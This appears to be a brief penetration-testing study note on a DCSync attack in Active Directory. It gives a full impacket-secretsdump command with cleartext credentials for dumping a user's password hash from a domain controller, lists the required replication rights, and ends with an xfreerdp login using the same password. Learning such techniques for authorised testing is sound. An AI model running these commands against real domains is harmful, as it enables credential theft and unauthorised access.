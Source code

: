 Example (w/ *impacket-secretsdump* (Linux)):
- Start:
	- `impacket-secretsdump -just-dc-user maria corp.com/mike:"Darkness1099\!"@192.168.200.70`
		- **-just-dc-user** -> tgt user
		- provide creds of user with rights
			- **domain/user:password@ip.**
		- uses *DRSUAPI* the Microsoft API implementing the Directory Replication Service Remote Protocol.

- [Note]:
	- Need a user that is a member of (Domain Admins, Enterprise Admins, or Administrators*
	- Needs *Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set* rights.
└─$ xfreerdp /cert-ignore /u:mike /d:corp.com /p:Darkness1099\! /v:192.168.200.75
